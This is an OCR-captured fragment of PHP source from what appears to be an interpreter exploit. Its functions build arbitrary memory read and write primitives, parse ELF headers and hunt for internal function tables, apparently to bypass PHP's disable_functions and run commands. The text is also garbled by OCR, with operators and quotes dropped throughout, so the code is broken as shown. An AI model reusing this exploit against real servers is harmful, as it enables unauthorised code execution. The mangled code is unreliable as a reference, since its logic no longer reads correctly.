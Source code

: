     function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i  $n; $i++) {
            $str[$p + $i] = sprintf(%c,($v & 0xff));
            $v = 8;
        }
    }
    
    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper-a);
        if($s != 8) { $leak %= 2  ($s  8) - 1; }
        return $leak;
    }
    
    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);
    
        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);
    
        for($i = 0; $i  $e_phnum; $i++) {
            $header = $base + $e_phoff + $i  $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);
    
            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2  $p_vaddr  $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }
    
        if(!$data_addr  !$text_size  !$data_size)
            return false;
    
        return [$data_addr, $text_size, $data_size];
    }
    
    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i  $data_size  8; $i++) {
            $leak = leak($data_addr, $i  8);
            if($leak - $base  0 && $leak - $base  $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;
    